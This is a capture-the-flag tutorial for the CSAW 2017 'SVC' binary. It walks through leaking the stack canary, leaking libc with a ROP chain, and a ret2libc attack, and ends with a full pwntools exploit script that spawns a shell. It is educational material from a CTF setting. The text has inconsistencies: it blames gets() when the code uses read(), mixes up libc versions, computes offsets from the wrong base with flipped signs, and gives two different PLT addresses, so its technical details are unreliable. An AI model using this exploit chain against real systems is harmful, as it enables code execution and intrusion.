

---
search:
  exclude: true
---
# Csaw 2017 SVC

## Downloading the binary file 
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/2 ] [binexp/2/svc]
    → wget -q https://github.com/guyinatuxedo/nightmare/raw/master/modules/08-bof_dynamic/csawquals17_svc/svc
    
    [ 192.168.0.18/24 ] [ /dev/pts/2 ] [binexp/2/svc]
    → wget -q https://github.com/guyinatuxedo/nightmare/raw/master/modules/08-bof_dynamic/csawquals17_svc/core
    
    [ 192.168.0.18/24 ] [ /dev/pts/2 ] [binexp/2/svc]
    → wget -q https://github.com/guyinatuxedo/nightmare/raw/master/modules/08-bof_dynamic/csawquals17_svc/libc-2.23.so
    
    [ 192.168.0.18/24 ] [ /dev/pts/2 ] [binexp/2/svc]
    → chmod +x svc ; ls -lash
    total 7.6M
    4.0K drwxr-xr-x  2 nothing nothing 4.0K Mar  6 16:16 .
    4.0K drwxr-xr-x 11 nothing nothing 4.0K Mar  6 16:14 ..
    5.8M -rw-r--r--  1 nothing nothing 5.8M Mar  6 16:16 core
    1.8M -rw-r--r--  1 nothing nothing 1.8M Mar  6 16:16 libc-2.23.so
     12K -rwxr-xr-x  1 nothing nothing  11K Mar  6 16:16 svc
    
    

` 

## Solution 

Now let's check out what the binary does when we execute it after using pwn checksec on it:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/2 ] [binexp/2/svc]
    → pwn checksec svc
    [*] '/home/nothing/binexp/2/svc/svc'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    
    [ 192.168.0.18/24 ] [ /dev/pts/2 ] [binexp/2/svc]
    → ./svc
    -------------------------
    [*]SCV GOOD TO GO,SIR....
    -------------------------
    1.FEED SCV....
    2.REVIEW THE FOOD....
    3.MINE MINERALS....
    -------------------------
    >>1
    

So we see that this is a 64bit dynamically linked binary, it has a stack canary and a non executable stack (NX). Basically, the binary asks us if we want to 1) feed the csv with some text input, 2) review what we just put in, or 3 to quit.
    
    
    -------------------------
    [*]SCV IS ALWAYS HUNGRY.....
    -------------------------
    [*]GIVE HIM SOME FOOD.......
    -------------------------
    >>foodfoodfood
    -------------------------
    [*]SCV GOOD TO GO,SIR....
    -------------------------
    1.FEED SCV....
    2.REVIEW THE FOOD....
    3.MINE MINERALS....
    -------------------------
    >>2
    -------------------------
    [*]REVIEW THE FOOD...........
    -------------------------
    [*]PLEASE TREAT HIM WELL.....
    -------------------------
    foodfoodfood
    
    -------------------------
    [*]SCV GOOD TO GO,SIR....
    -------------------------
    1.FEED SCV....
    2.REVIEW THE FOOD....
    3.MINE MINERALS....
    -------------------------
    >>1
    
    
    
    -------------------------
    [*]SCV IS ALWAYS HUNGRY.....
    -------------------------
    [*]GIVE HIM SOME FOOD.......
    -------------------------
    >>feedfeedfeed
    -------------------------
    [*]SCV GOOD TO GO,SIR....
    -------------------------
    1.FEED SCV....
    2.REVIEW THE FOOD....
    3.MINE MINERALS....
    -------------------------
    >>2
    -------------------------
    [*]REVIEW THE FOOD...........
    -------------------------
    [*]PLEASE TREAT HIM WELL.....
    -------------------------
    feedfeedfeed
    
    -------------------------
    [*]SCV GOOD TO GO,SIR....
    -------------------------
    1.FEED SCV....
    2.REVIEW THE FOOD....
    3.MINE MINERALS....
    -------------------------
    >>3
    [*]BYE ~ TIME TO MINE MIENRALS...
    
    

Now that we see how the binary works approximately, let's check it out inside of ghidra:

Since the main function of the binary is not called 'main' we just search (CTRL+SHIFT+E) in ghidra for one of the keywords that the binary previously gave us like the 'FEED' word and thus we find that the main function is FUN_00400a96, and is quite gigantic so we're going to only focus on the parts we need:
    
    
    undefined8 FUN_00400a96(void)
    
    {
      while (local_c0 != 0) {
        pbVar1 = std::operator<<((basic_ostream *)std::cout,"-------------------------");
    
    [...]
                                                           
        std::operator<<((basic_ostream *)std::cout,">>");
        std::basic_istream>::operator>>
                  ((basic_istream> *)std::cin,&local;_c4);
       
        if (local_c4 == 2) {
        }
    
        if (local_c4 == 2) {
          pbVar1 = std::operator<<((basic_ostream *)std::cout,"-------------------------");
          std::basic_ostream>::operator<<
        }
    
        if (local_c4 == 3) {
    
        }
    
    [...]
    
      }
    
    }
    
    
    

First of all we see that we enter a while loop, and for each iteration of the loop it prompts us for a menu option in local_c4. for the option to scan in data (option 1) we see the following: 
    
    
            if (local_c4 == 1) {
    	
    	[...]
    
              sVar2 = read(0,local_b8,0xf8);
              local_bc = (undefined4)sVar2;
            }
            else {
              pbVar1 = std::operator<<((basic_ostream *)std::cout,"[*]DO NOT HURT MY SCV....");
              std::basic_ostream>::operator<<
                        ((basic_ostream> *)pbVar1,
                         std::endl>);
            }
    

we see that it uses the read() function to scan in **0xf8** bytes of data into the input variable called **local_b8** Now let's set our breakpoint right after the read() call at 0x400cd3:

    
    
    [ 192.168.0.18/24 ] [ /dev/pts/2 ] [binexp/2/svc]
    → gdb ./svc
    GNU gdb (GDB) 10.1
    Copyright (C) 2020 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later 
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.
    Type "show copying" and "show warranty" for details.
    This GDB was configured as "x86_64-pc-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    .
    Find the GDB manual and other documentation resources online at:
        .
    
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    GEF for linux ready, type `gef' to start, `gef config' to configure
    92 commands loaded for GDB 10.1 using Python engine 3.9
    Reading symbols from ./svc...
    (No debugging symbols found in ./svc)
    gef➤  b *0x400cd3
    Breakpoint 1 at 0x400cd3
    gef➤  r
    Starting program: /home/nothing/binexp/2/svc/svc
    -------------------------
    [*]SCV GOOD TO GO,SIR....
    -------------------------
    1.FEED SCV....
    2.REVIEW THE FOOD....
    3.MINE MINERALS....
    -------------------------
    >>1
    -------------------------
    [*]SCV IS ALWAYS HUNGRY.....
    -------------------------
    [*]GIVE HIM SOME FOOD.......
    -------------------------
    >>13371337
    
    Breakpoint 1, 0x0000000000400cd3 in ?? ()
    [ Legend: Modified register | Code | Heap | Stack | String ]
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
    $rax   : 0x9
    $rbx   : 0x0000000000400e40  →   push r15
    $rcx   : 0x00007ffff7ce0052  →  0x5677fffff0003d48 ("H="?)
    $rdx   : 0xf8
    $rsp   : 0x00007fffffffde80  →  0x00000001f7f96ee0
    $rbp   : 0x00007fffffffdf40  →  0x0000000000000000
    $rsi   : 0x00007fffffffde90  →  "13371337\n\t@"
    $rdi   : 0x0
    $rip   : 0x0000000000400cd3  →   mov DWORD PTR [rbp-0xb4], eax
    $r8    : 0x2
    $r9    : 0x0000000000602000  →  0x0000000000601e18  →  0x0000000000000001
    $r10   : 0xfffffffffffffb88
    $r11   : 0x246
    $r12   : 0x00000000004009a0  →   xor ebp, ebp
    $r13   : 0x0
    $r14   : 0x0
    $r15   : 0x0
    $eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
    $cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
    0x00007fffffffde80│+0x0000: 0x00000001f7f96ee0   ← $rsp
    0x00007fffffffde88│+0x0008: 0x0000000000000001
    0x00007fffffffde90│+0x0010: "13371337\n\t@"      ← $rsi
    0x00007fffffffde98│+0x0018: 0x000000000040090a  →   add cl, ch
    0x00007fffffffdea0│+0x0020: 0x0000000000602080  →  0x0000000000000000
    0x00007fffffffdea8│+0x0028: 0x00007ffff7c2fac6  →  <__internal_atexit+70> test rax, rax
    0x00007fffffffdeb0│+0x0030: 0x0000000000000001
    0x00007fffffffdeb8│+0x0038: 0x00007fffffffdef0  →  0x00007fffffffdf00  →  0x0000000000000002
    ────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
         0x400cc6                  mov    rsi, rax
         0x400cc9                  mov    edi, 0x0
         0x400cce                  call   0x400900 
    ●→   0x400cd3                  mov    DWORD PTR [rbp-0xb4], eax
         0x400cd9                  jmp    0x400dc0
         0x400cde                  mov    esi, 0x400ec8
         0x400ce3                  mov    edi, 0x6021e0
         0x400ce8                  call   0x400940 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
         0x400ced                  mov    esi, 0x400980
    ────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
    [#0] Id 1, Name: "svc", stopped 0x400cd3 in ?? (), reason: BREAKPOINT
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
    [#0] 0x400cd3 → mov DWORD PTR [rbp-0xb4], eax
    [#1] 0x7ffff7c17b25 → __libc_start_main()
    [#2] 0x4009c9 → hlt
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤
    
    

So what we did here is basically to set the breakpoint right after the read() call, then we ran the binary, selected 1 to feed in our data, and gave in the pattern '13371337' Now from here let's find it by using search-pattern: 
    
    
    gef➤  search-pattern 13371337
    [+] Searching '13371337' in memory
    [+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
      0x7fffffffde90 - 0x7fffffffde9d  →   "13371337\n\t@"
    
    gef➤  info frame
    Stack level 0, frame at 0x7fffffffdf50:
     rip = 0x400cd3; saved rip = 0x7ffff7c17b25
     called by frame at 0x7fffffffe020
     Arglist at 0x7fffffffde78, args:
     Locals at 0x7fffffffde78, Previous frame's sp is 0x7fffffffdf50
     Saved registers:
      rbp at 0x7fffffffdf40, rip at 0x7fffffffdf48
    
    

Now here we see the memory address of our input at **0x7fffffffde90** and the memory address of the return address at **0x7fffffffdf48** and we calculate the offset as usual:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/1 ] [blog/binexp/2]
    → python3
    Python 3.9.2 (default, Feb 20 2021, 18:40:11)
    [GCC 10.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> hex( 0x7fffffffde90   -  0x7fffffffdf48   )
    '-0xb8'
    
    

Now we know that there is a 0xb8 offset between our input text and the return address

So let's summarize everything we got so far:

We have a buffer overflow bug that we can use because of a gets() call and we can get to the return address with it. However the first mitigation we will need to overcome is the stack canary. The stack canary is an eight byte random integer (we saw that it was 4 bytes for x86 systems in the previous challenge [feed](feed.md))

However, before the return address is executed, it checks to see if the stack canary has the same value. If it doesn't the program will end. To bypass this, we need to leak the stack canary. That way we can just overwrite the stack canary with itself, so it will pass the stack cnary to check and execute the return address, which we will overwrite with our buffer overflow 

We will leak the stack canary thanks to the following **puts()** call that is being used in the second option:
    
    
        if (local_c4 == 2) {
    
    [...]
    
          puts(local_b8);
        }
    

it is going to print data that it is given by a pointer until it reaches a null byte. With stack canaries the least significant byte is a null byte. SO we will just send enough data to just overflow the LSB of the stack canary, and then print our input. This will print all of our data and the highest seven eight bytes of the stack canary, and since the lowest byte will always be a nullbyte, we know the full stack canary. With this we can just execute the buffer overflow again and write over the stack canary itself in order to defeat this mitigation.

To leak the stack canary we will need to send **0xa9** bytes of data, the first **0xa8** will be to fill up the input char array, and the last byte will be to overwrite the LSB of the stack canary. So let's take a look at the memory in more detail since we know that our input starts at **0x7fffffffde90** :
    
    
    gef➤  x/24g 0x7fffffffde90
    0x7fffffffde90: 0x3733333137333331      0x40090a
    0x7fffffffdea0: 0x602080        0x7ffff7c2fac6
    0x7fffffffdeb0: 0x1     0x7fffffffdef0
    0x7fffffffdec0: 0x601df8        0x7fffffffe048
    0x7fffffffded0: 0x7fffffffe038  0x400e1b
    0x7fffffffdee0: 0x11bf  0x10000ffff
    0x7fffffffdef0: 0x7fffffffdf00  0x400e31
    0x7fffffffdf00: 0x2     0x400e8d
    0x7fffffffdf10: 0x0     0x400e40
    0x7fffffffdf20: 0x0     0x4009a0
    0x7fffffffdf30: 0x7fffffffe030  0x6a77910e1ec4300
    0x7fffffffdf40: 0x0     0x7ffff7c17b25
    
    

Here we see that our payload begins at 0x7fffffffde90 since there are only 1s 3s and 7s, although i'm not sure as to what it has been formatted to, we see that **0xa8** bytes down the stack the stack canary **0x6a77910e1ec4300** at **0x7fffffffdf38**

The next step is to defeat the ASLR. ASLR is a mitigation that randomizes the addresses sections of memory. This way when we run the program, we don't actually know where various things in memory are. While the addresses are randomized, the spacing between things are not. For instance the libc (where all the standard functions lik eputs, printf, fgets are stored most of the time) the address of **puts** and **system** will be different everytime we run the program. However the offset between them will remain the same. SO if we leak the address of **puts** we will also leak the address of **system** if we know the offset between the 2. This will allow us to break ASLR in the region where we know one memory and the offset to the next. So let's take a look at the vmmap inside of gdb while we run the binary:
    
    
    gef➤  vmmap
    [ Legend:  Code | Heap | Stack ]
    Start              End                Offset             Perm Path
    0x0000000000400000 0x0000000000402000 0x0000000000000000 r-x /home/nothing/binexp/2/svc/svc
    0x0000000000601000 0x0000000000602000 0x0000000000001000 r-- /home/nothing/binexp/2/svc/svc
    0x0000000000602000 0x0000000000603000 0x0000000000002000 rw- /home/nothing/binexp/2/svc/svc
    0x0000000000603000 0x0000000000624000 0x0000000000000000 rw- [heap]
    0x00007ffff7a8d000 0x00007ffff7a91000 0x0000000000000000 rw-
    0x00007ffff7a91000 0x00007ffff7a94000 0x0000000000000000 r-- /usr/lib/libgcc_s.so.1
    0x00007ffff7a94000 0x00007ffff7aa5000 0x0000000000003000 r-x /usr/lib/libgcc_s.so.1
    0x00007ffff7aa5000 0x00007ffff7aa9000 0x0000000000014000 r-- /usr/lib/libgcc_s.so.1
    0x00007ffff7aa9000 0x00007ffff7aaa000 0x0000000000017000 r-- /usr/lib/libgcc_s.so.1
    0x00007ffff7aaa000 0x00007ffff7aab000 0x0000000000018000 rw- /usr/lib/libgcc_s.so.1
    0x00007ffff7aab000 0x00007ffff7aba000 0x0000000000000000 r-- /usr/lib/libm-2.33.so
    0x00007ffff7aba000 0x00007ffff7b55000 0x000000000000f000 r-x /usr/lib/libm-2.33.so
    0x00007ffff7b55000 0x00007ffff7bed000 0x00000000000aa000 r-- /usr/lib/libm-2.33.so
    0x00007ffff7bed000 0x00007ffff7bee000 0x0000000000142000 --- /usr/lib/libm-2.33.so
    0x00007ffff7bee000 0x00007ffff7bef000 0x0000000000142000 r-- /usr/lib/libm-2.33.so
    
    0x00007ffff7bef000 0x00007ffff7bf0000 0x0000000000143000 rw- /usr/lib/libm-2.33.so
    0x00007ffff7bf0000 0x00007ffff7c16000 0x0000000000000000 r-- /usr/lib/libc-2.33.so
    0x00007ffff7c16000 0x00007ffff7d62000 0x0000000000026000 r-x /usr/lib/libc-2.33.so
    0x00007ffff7d62000 0x00007ffff7dae000 0x0000000000172000 r-- /usr/lib/libc-2.33.so
    0x00007ffff7dae000 0x00007ffff7db1000 0x00000000001bd000 r-- /usr/lib/libc-2.33.so
    0x00007ffff7db1000 0x00007ffff7db4000 0x00000000001c0000 rw- /usr/lib/libc-2.33.so
    0x00007ffff7db4000 0x00007ffff7dbd000 0x0000000000000000 rw-
    
    0x00007ffff7dbd000 0x00007ffff7e53000 0x0000000000000000 r-- /usr/lib/libstdc++.so.6.0.28
    0x00007ffff7e53000 0x00007ffff7f3f000 0x0000000000096000 r-x /usr/lib/libstdc++.so.6.0.28
    0x00007ffff7f3f000 0x00007ffff7f88000 0x0000000000182000 r-- /usr/lib/libstdc++.so.6.0.28
    0x00007ffff7f88000 0x00007ffff7f89000 0x00000000001cb000 --- /usr/lib/libstdc++.so.6.0.28
    0x00007ffff7f89000 0x00007ffff7f96000 0x00000000001cb000 r-- /usr/lib/libstdc++.so.6.0.28
    0x00007ffff7f96000 0x00007ffff7f97000 0x00000000001d8000 rw- /usr/lib/libstdc++.so.6.0.28
    0x00007ffff7f97000 0x00007ffff7f9c000 0x0000000000000000 rw-
    0x00007ffff7fc6000 0x00007ffff7fca000 0x0000000000000000 r-- [vvar]
    0x00007ffff7fca000 0x00007ffff7fcc000 0x0000000000000000 r-x [vdso]
    0x00007ffff7fcc000 0x00007ffff7fcd000 0x0000000000000000 r-- /usr/lib/ld-2.33.so
    0x00007ffff7fcd000 0x00007ffff7ff1000 0x0000000000001000 r-x /usr/lib/ld-2.33.so
    0x00007ffff7ff1000 0x00007ffff7ffa000 0x0000000000025000 r-- /usr/lib/ld-2.33.so
    0x00007ffff7ffb000 0x00007ffff7ffd000 0x000000000002e000 r-- /usr/lib/ld-2.33.so
    0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000030000 rw- /usr/lib/ld-2.33.so
    0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
    0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
    
    

Here we want to break ASLR in the **libc-2.23.so** region where we have read and write permissions, therefore at **00007ffff7bf0000**.

To do the puts function infoleak, we will need 3 things. The plt address of **puts** (address of the imported function which we will use to call it), the address of the got entry of **puts** which holds the libc address, and a **rop gadget** to pop the got entry into the rdi register, and then return. 

Since the puts call expects it's input (a single char pointer) in the rdi register, that is where we need to place it. To find the **plt** and **got** addresses, we can use pwntools:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/1 ] [binexp/2/svc]
    → python3
    Python 3.9.2 (default, Feb 20 2021, 18:40:11)
    [GCC 10.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> from pwn import *
    >>> elf = ELF('svc')
    [*] '/home/nothing/binexp/2/svc/svc'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    >>> print("plt addr:" + hex(elf.symbols['puts']))
    plt addr:0x4008d0
    >>> print("got addr:" + hex(elf.got['puts']))
    got addr:0x602018
    
    

To find the gadget we need, let's use [ROPGadget](https://github.com/JonathanSalwan/ROPgadget) like we used in the previous challenges already
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/1 ] [binexp/2/svc]
    → ROPgadget --binary svc| grep "pop rdi"
    0x0000000000400ea3 : pop rdi ; ret
    
    

The last mitigation we will overcome is the NX (Non executable stack), this means that the stack does not have the execute permission. SO we cannot execute code on the stack. Our method to bypass this will have to be a mix of a ROP chain, and a ret2libc (return to libc) attack. ROP is when we take bits of code that already are in the binary and make them work together in the manner that we want. 

What we need here is to use ROP Gadgets, which are essentially pointers to the bits of code that end in a **ret** instruction which will make it move to the next gadget. Since these are all valid instruction pointers to code that should run, it will be markeed as executable regardless of the NX. 
    
    
    gef➤  p puts
    $1 = {<****text variable, no debug info>} 0x7ffff7c66cd0
    gef➤  p system
    $2 = {<****text variable, no debug info>} 0x7ffff7c3a120
    gef➤  search-pattern /bin/sh
    [+] Searching '/bin/sh' in memory
    [+] In '/usr/lib/libc-2.33.so'(0x7ffff7d62000-0x7ffff7dae000), permission=r--
      0x7ffff7d7c966 - 0x7ffff7d7c96d  →   "/bin/sh"
    
    

We calculate the offsets:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/9 ] [blog/binexp/2]
    → python3
    Python 3.9.2 (default, Feb 20 2021, 18:40:11)
    [GCC 10.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> hex( 0x7ffff7c66cd0  - 0x00007ffff7d62000  )
    '-0xfb330'
    >>> hex(  0x7ffff7c3a120   -  0x00007ffff7d62000    )
    '-0x127ee0'
    >>> hex(  0x7ffff7d7c966   -  0x00007ffff7d62000    )
    '0x1a966'
    
    

and with this we can create the exploit:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/2 ] [binexp/2/svc]
    → vim exploit.py
    
    
    
    
    from pwn import *
    
    target = process("./svc")
    gdb.attach(target)
    
    elf = ELF('svc')
    
    
    # 0x0000000000400ea3 : pop rdi ; ret
    popRdi = p64(0x400ea3)
    
    gotPuts = p64(0x602018)
    pltPuts = p64(0x4008cc)
    
    offsetPuts = 0xfb330
    offsetSystem = 0x127ee0
    offsetBinsh = 0x1a966
    
    startMain = p64(0x400a96)
    
    # Establish fucntions to handle I/O with the target
    def feed(data):
      print(target.recvuntil(">>"))
      target.sendline(b'1')
      print(target.recvuntil(">>"))
      target.send(data)
    
    def review():
      print(target.recvuntil(">>"))
      target.sendline(b'2')
      #print target.recvuntil("[*]PLEASE TREAT HIM WELL.....\n-------------------------\n")
      #leak = target.recvuntil("-------------------------").replace("-------------------------", "")
      print(target.recvuntil(b"0"*0xa9))
      canaryLeak = target.recv(7)
      canary = u64(b"\x00" + canaryLeak)
      print("canary is: " + hex(canary))
      return canary
    
    def leave():
      print(target.recvuntil(">>"))
      target.sendline(b"3")
    
    # Start of with the canary leak. We will overflow the buffer write up to the stack canary, and overwrite the least signifcant byte of the canary
    leakCanary = b""
    leakCanary += b"0"*0xa8 # Fill up space up to the canary
    leakCanary += b"0" # Overwrite least significant byte of the canary
    
    
    
    feed(leakCanary) # Execute the overwrite
    
    canary = review() # Leak the canary, and parse it out
    
    # Start the rop chain to give us a libc infoleak
    leakLibc = b""
    leakLibc += b"0"*0xa8 # Fill up space up to the canary
    leakLibc += p64(canary) # Overwrite the stack canary with itself
    leakLibc += b"1"*0x8 # 8 more bytes until the return address
    leakLibc += popRdi # Pop got entry for puts in rdi register
    leakLibc += gotPuts # GOT address of puts
    leakLibc += pltPuts # PLT address of puts
    leakLibc += startMain # Loop back around to the start of main
    
    # Send the payload to leak libc
    feed(leakLibc)
    
    # Return to execute our code
    leave()
    
    # Scan in and parse out the infoleak
    
    print(target.recvuntil("[*]BYE ~ TIME TO MINE MIENRALS...\x0a"))
    
    putsLeak = target.recvline().replace(b"\x0a", b"")
    
    putsLibc = u64(putsLeak + b"\x00"*(8-len(putsLeak)))
    
    # Calculate the needed addresses
    
    libcBase = putsLibc - offsetPuts
    systemLibc = libcBase + offsetSystem
    binshLibc = libcBase + offsetBinsh
    
    print("libc base: " + hex(libcBase))
    
    # Form the payload to return to system
    
    payload  = b""
    payload += b"0"*0xa8
    payload += p64(canary)
    payload += b"1"*0x8
    payload += popRdi # Pop "/bin/sh" into the rdi register, where it expects it's argument (single char pointer)
    payload += p64(binshLibc) # Address to '/bin/sh'
    payload += p64(systemLibc) # Libc address of system
    
    # Send the final payload
    feed(payload)
    
    target.sendline(b"3")
    
    #feed(payload)
    
    # Return to execute our code, return to system and get a shell
    #leave()
    
    target.interactive()
    
    

## Title 

text 
    
    
    

` 

## Title 

text 
    
    
    

` 

